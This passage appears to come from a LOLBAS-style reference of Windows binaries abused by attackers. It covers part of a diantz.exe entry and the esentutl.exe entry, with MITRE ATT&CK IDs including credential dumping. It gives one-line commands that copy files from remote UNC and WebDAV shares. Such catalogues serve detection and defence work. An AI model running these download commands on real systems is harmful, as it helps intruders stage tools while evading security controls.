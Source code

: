  

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab`|Download and compress a remote file and store it in a cab file on local machine.|


 

#### Search Queries


> Analytic Goes Here!


 
## Esentutl.exe

Binary for working with Microsoft Joint Engine Technology (JET) database

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1105</li><li>T1096</li><li>T1003</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>Copy</li><li>ADS</li><li>Download</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10</li><li>Windows 10, Windows 2016 Server, Windows 2019 Server</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`C:\Windows\System32\esentutl.exe`</li><li>`C:\Windows\SysWOW64\esentutl.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>egre55 (@egre55)</li><li>Mike Cary (grayfold3d)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://twitter.com/egre55/status/985994639202283520</li><li>https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/</li><li>https://twitter.com/bohops/status/1094810861095534592</li></ul></div>|

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o`|Copies the source EXE to the destination EXE file|


 

#### Search Queries


> Analytic Goes Here!


 
## Excel.exe
